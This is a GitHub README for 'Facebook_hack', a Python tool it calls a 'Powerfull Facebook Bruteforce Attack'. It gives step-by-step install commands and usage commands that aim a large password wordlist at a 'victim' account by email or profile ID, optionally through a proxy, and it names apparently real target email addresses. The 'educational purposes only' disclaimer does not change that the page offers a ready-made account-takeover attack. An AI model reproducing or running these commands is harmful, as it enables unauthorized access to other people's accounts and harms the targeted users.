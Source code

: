 # Facebook_hack

![PicsArt_22-06-08_16-34-50-148](https://user-images.githubusercontent.com/70594016/172602116-20012d77-f4c2-45a6-a5fb-391f683c0f05.png)

###### Powerfull Facebook Bruteforce Attack

***

### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux

***

 ```bash
Note : Tool is Made of Educational Purposes only.
       Please try not to harm anyone device 
       it's For Fun Purpose Not For Revenge
       (Join Us https://bit.ly/3PV3S3r)
```

## Language is used to Make this tool

- Python
  
## The Tool is for

- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation

```bash
apt update && apt upgrade -y
```

```bash
apt install git -y
```

```bash
git clone https://github.com/hackerxphantom/Facebook_hack.git
```

```bash
cd Facebook_hack
```

```bash
bash setup
```

```bash
python facebook_hack.py
```

## usage :-

- **U can Use Victim email Or Facebook Profile Id**:
  
- **Brute Force On Facebook Account Without proxy**:
  
- **Command**: python facebook_hack.py -t uyencan89@gmail.com -w 10MPASS.txt
  
- **Brute Force On Facebook Account With Proxy**:

  - **Command**: python facebook_hack.py -t uyencan90@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

  - **Get Target Facebook Profile ID**:
  
  - **Command**: python facebook_hack.py -g <https://www.facebook.com/zuck>
  